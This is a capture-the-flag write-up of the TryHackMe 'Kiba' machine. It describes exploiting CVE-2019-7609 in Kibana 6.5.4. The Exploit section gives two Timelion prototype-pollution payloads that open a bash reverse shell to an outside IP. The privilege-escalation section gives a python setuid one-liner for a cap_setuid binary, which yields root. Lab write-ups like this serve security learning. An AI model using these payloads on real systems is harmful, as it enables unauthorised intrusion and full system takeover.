 ```yaml
---
layout: default
title : m3dsec - Kiba Write-up
---
```


_**Sep 10, 2020**_

## Overview

quick writeup, explaining 
- Kibana arbitrary code execution flaw, [CVE-2019-7609](https://nvd.nist.gov/vuln/detail/CVE-2019-7609)
- linux capabilities
- how we got full system on [kiba](https://tryhackme.com/room/kiba) machine from [tryhackme](https://tryhackme.com)

## Target Informations

```
TARGET IP ADRESS    : 10.10.153.5
DOMAIN NAME         : kiba.thm
ROOM URL            : https://tryhackme.com/room/kiba
Descriptions        : Identify the critical security flaw in the data visualization dashboard, that allows execute remote code execution.
```

## External Enumeration

**Port Scaning**

running a simple **nmap** scan against the target host, we get 3 open ports.

```
m3dsec@local:~/kiba.thm$  nmap -sC -sV -oN nmap/namp_tcp_simple 10.10.153.5
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5601/tcp open  esmagent
```

nothing much on port 80, but accessing port **5601** reveal a **Kibana dashboard** version **6.5.4**, which is vulnerable to prototype pollution vulnerability, under [CVE-2019-7609](https://nvd.nist.gov/vuln/detail/CVE-2019-7609).

there is quite good articles out there [explainning](https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability) how a malicious actor can laverage from a normal user, to get a full access into the backend of the application

however the main idea is each time we click on "_convas_", kibana spawn a <ins>new process</ins>, and as long as we have controle over the enviremental variables passed to that new spawned process, we can execute javascript code, that lead us to a Remote Code Execution on the target host


## Exploit

* Open Kibana
* Past one of the following payload into the Timelion visualizer
* Click run
* On the left panel click on Canvas
* Your reverse shell should pop ! :)

Here are some payloads, that we can use.

* payload1 

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/10.9.123.226/9991 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

* payload 2

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.9.123.226/9991 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

and we got our foothold on the target as user **kiba**

<br>

## Privilege escalation

quickly after getting in, running getcap command

```
kiba@hostname:~$ getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
...
```

we can notice that there is a python binary file on the user home directory that got some special capabilities `cap_setuid+ep` that we can abuse to get root on the target system, but 1st

**What are capabilities :**
capabilities are a set of actions that can be used to give only a portion of higher privileges, therefore limit users permission.

**Example :**
Suppose a web server normally runs at port 80 and we also know that we need root permissions to start listening on one of the lower ports (<1024). 
the daemon needs to be able to listen to port 80. Instead of giving this daemon all root permissions, we can set a capability on the related binary, like CAP_NET_BIND_SERVICE. With this specific capability, it can open up port 80 in a much easier way.

in our case, we have `cap_setuid` whish is pretty f#!@up if u ask me, it let us sets the effective user-id of the process to what ever we want.

we can easly get a root shell on the target host, by droping the effective user id to 0 (root UID)

with this simple command:

```
kiba@hostname:~$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
# id
uid=0(root) gid=0(root) groups=0(root)
```



<br>


## Questions answers

sorry, we don't provide easy response here, u'll need to do the machine by yourself.


<br>

## Some Resources

1. [https://nvd.nist.gov/vuln/detail/CVE-2019-7609](https://nvd.nist.gov/vuln/detail/CVE-2019-7609)
2. [https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability](https://www.tenable.com/blog/cve-2019-7609-exploit-script-available-for-kibana-remote-code-execution-vulnerability)
3. [https://gtfobins.github.io/gtfobins/python/#capabilities](https://gtfobins.github.io/gtfobins/python/#capabilities)


<br>
Best Regards

[m3dsec](https://twitter.com/m3dsec).

<br>
<br>

[back to main()](../../index.md)

<br>
<br>
